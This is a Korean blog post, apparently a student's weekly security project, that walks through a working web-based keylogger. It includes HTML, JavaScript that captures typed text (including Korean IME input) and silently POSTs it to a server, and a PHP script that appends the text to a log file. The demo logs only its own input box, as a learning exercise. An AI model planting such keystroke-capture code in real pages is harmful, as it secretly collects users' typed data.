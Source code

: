 ```yaml
---
layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```




<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style=" zoom: 50%;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

## 1.1 keylog.html

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.  
필요에 따라 밑에 표시하는 구문은 지우셔도 무방합니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```



## 1.2 keylogger.js

<br>▶<span style='font-weight:bold; font-size:20px'>DOMContentLoaded로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {	#DOM이 완료되고, 초기에 스크립트를 실행하기 위함.
    const input = document.getElementById('input');	# 작성할곳	
    const log = document.getElementById('log');	# 작성한 것이 밑에 나타날 곳	
    let composing = false;	# IME 입력 중인지 나타내는 플래그(한글작성을 위해)
    let buffer = '';	# 데이터를 임시 저장(한글의 문장열을 한꺼번에 보내려고)
    let timeoutId = null;	# 디바운싱을 위한 타임아웃 ID(불필요한 텍스트를피하려고)
```



▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
 #한글을 작성할 때 
 #(영어가 아닌 한글은 자음가 모음의 결합된 형태이기 때문에 composing을 이용하여 문자조합의 시작과 끝을 나누어서 봐야한다.)

	input.addEventListener('compositionstart', () => {			#입력을 시작, true는 입력중이라는 뜻.
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {		#입력 끝, false는 입력을 끝냈다는 뜻.
        composing = false;										#한글 작성을 끝내고,buffer와log에 데이터를 추가
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer); 										# buffer에 저장된 텍스트를 서버로 전송
        buffer = ''; 											# buffer 초기화
    });
-----------------------------------------------------------------------------------------------------------
    #영어를 작성하거나 기타 다른 것을 작성할 때(밑에 log 작성안할시,if문에 buffer 데이터추가하고 서버에 보내도 됌)

    input.addEventListener('input', (event) => {					
        if (!composing) {											# 한글을 입력하지 않고 다른것을 작성할때
            if (event.inputType === "deleteContentBackward") {		# backspace키
                log.textContent = log.textContent.slice(0, -1);		# slice는 추출해서 새로운 문자열 만드는것
            } else {												 (인덱스0, 인덱스-1)이므로 마지막단어빼고 만듬
                log.textContent += event.data || ''; 				# 나머지는 영어라서 log에 데이터 추가
            }
            debounceSendData(log.textContent); 						# 디바운싱을 적용하여 서버에 전송
        }															 시간 차를 이용해서 텍스트를 모아서 한꺼번에 																		 처리하여, log에 불필요한 텍스트가 생기는 것을 																	  방지한다.
    });

```



▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript
	###글 작성시, 바로 서버에 보내면 불필요한 글까지 전송된다. 하여 시간 차를 두어 수정할 시간을 확보하기 위함이다.### 
    
    function debounceSendData(text) {
        clearTimeout(timeoutId);			#이전에 설정된 타임을 취소.
        timeoutId = setTimeout(() => {		#새로운 타임 설정, 2초후에 서버로 text를 보냄.
            sendData(text); 
        }, 2000); 
    }

    function sendData(text) {
        var xhr = new XMLHttpRequest();			#웹페이지가 로딩이 끝난뒤에도 서버에 데이터를 주고 받을수 있음.
        xhr.open("POST", "keylog.php", true);	#요청을 설정. (메서드, 경로, 비동기(true),동기(false))
        										동기: 데이터베이스 검색후, 다음코드 진행하는 것처럼 한작업 끝나고 진행
                                                비동기:서버에 데이터주고받을때 처럼 바로 요청에 응답처리
        
                                                
        ###http요청헤더 content-Type 헤더에서 보낸 데이터가 url을 인코딩, 문자 인코딩이 utf-8 지정###   
         
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        
        ###http요청이 완료되었을 때, http상태가 200(좋음)인지 아닌지에 따라 출력하기###
        
        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); 			#데이터 인코딩해서 전송
    }
});

```



## 1.3 keylog.php

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';                                   	# key가 존재하지 않거나 null값이면 ''
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX); 
}	#PHP_EOL:줄바꿈 추가#  #FILE_APPEND:기존내용유지,뒤에 계속내용추가# #LOCK_EX:다른프로세스가 파일을 변경할수 없게함#
```






